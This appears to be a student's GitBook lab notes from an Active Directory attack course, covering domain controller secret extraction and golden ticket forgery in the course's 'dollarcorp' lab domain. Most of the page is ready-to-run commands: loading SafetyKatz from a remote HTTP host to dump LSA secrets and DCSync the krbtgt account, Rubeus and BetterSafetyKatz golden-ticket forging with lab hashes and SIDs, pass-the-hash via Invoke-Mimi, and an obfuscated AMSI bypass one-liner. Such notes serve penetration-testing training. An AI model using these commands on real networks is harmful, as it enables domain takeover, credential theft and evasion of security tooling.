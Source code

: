 # 🎟️ Extract secrets from DC, Create and use Golden Tickets

So after getting domain admin privileges, we will encode parameters as usual and run the rubeus command and ask for tgt and spawn a shell with domain admin privileges ->

<figure><img src="../../.gitbook/assets/image (1109).png" alt=""><figcaption><p>Running the rubeus command makes a shell spawn with DA privileges</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now we're going to copy Loader.exe on dcorp-dc:

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
#now let's hop on the dcorp-dc machine
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.13
```

<figure><img src="../../.gitbook/assets/image (1111).png" alt=""><figcaption><p>Beware the path is dcorp-dc and not dcorpdc like in the manual</p></figcaption></figure>

Now we're going to use ArgSplit on the student VM to encode `lsadump::lsa`

<figure><img src="../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

And then we will put it on the Admin instance that popped&#x20;

This will allow us to run the following command (don't forget to run a wsl python server to go and fetch the SafteyKatz exe)

```
C:\Users\Public\Loader.exe -path http://172.13.100.13:5454/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

<figure><img src="../../.gitbook/assets/image (1112).png" alt=""><figcaption></figcaption></figure>

And this will dump the hashes we need:

<figure><img src="../../.gitbook/assets/image (1113).png" alt=""><figcaption></figcaption></figure>

***

To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack, now try encoding `lsadump::dcsync`

And we can run the following:

```
C:\Users\Public\Loader.exe -path http://172.16.100.13:5454/SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (1114).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1115).png" alt=""><figcaption></figcaption></figure>

Now we could use the below Rubeus command to generate an OPSEC friendly command for Golden ticket.

Let's first encode "golden"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will generate a command to forge a golden ticket:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We need to add /ptt at the end of the generated command to inject it in the current process.

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access dcorp-dc as admin:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

We can also use BetterSafetyKatz.exe to create a Golden ticket. Run the below command from an elevated command prompt.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We can see ticket is cached</p></figcaption></figure>

Here is a POC we have RCE on dcorp-dc ->

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>dir \dcorp-dc\c$</p></figcaption></figure>

***

We can also use PowerShell Remoting and Invoke-Mimi.ps1 to start a process with DA privileges, we'll need to throw this from a elevated shell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:cmd.exe"'
```

And this will pop a shell:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now in the DA process ->

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n'ULl},${t'RuE} )
 exit
 Invoke-Command -FilePath .\Invoke-Mimi.ps1 -Session $sess
 Enter-PSSession $sess
 Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we are able to dump the hashes

***

Theres some other stuff in the course, go check
